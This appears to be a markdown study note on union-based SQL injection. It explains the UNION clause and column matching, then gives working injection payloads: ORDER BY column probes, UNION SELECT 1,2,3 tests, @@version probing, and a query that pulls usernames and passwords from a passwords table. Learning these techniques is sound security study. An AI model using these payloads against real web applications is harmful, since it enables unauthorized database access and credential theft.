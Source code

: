 ```yaml
---
title: e-Union Clause
draft: false
tags:
  - union
---
```

We can inject entire SQL query to be executed along with the original query.

## Union

`Union` clause is used to combine results from multiple `SELECT` statements. 

We can use `Union` as such:

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

## Even Columns

`Union` statement only operates on `SELECT` statements with an equal number of columns. 

If we try to `Union` two queries with different number of columns, we get an error:

```shell-session
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

Query below will return `username` and `password` from the `passwords` table, assuming `products` table has two columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

## Un-even Columns

Original query usually doesn't have the same number of columns as the SQL query we want to execute.

Let's say `products` table has two columns, so we have to `UNION` with two columns as such:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

## Union Injection

### Detect number of columns

Let's say we identified SQL injection vulnerability. Before exploiting it, we need to identify number of columns.

There are two ways:

- Using `ORDER BY`
- Using `UNION`

#### ORDER BY

We can start with `order by 1` and increment until we get an error. 

The final successful column we successfully sorted gives us the number of columns.

e.g

```sql
' order by 1-- -
```

#### UNION

Attempt with a different number of columns until we successfully get the results back:

```sql
cn' UNION select 1,2,3-- -
```

### Location of Injection

Now that we have identified number of columns, we have to identify injection point. 

Web app may only display certain columns, not all of them.

We can test out each column as such:

```sql
cn' UNION select 1,@@version,3,4-- -
```

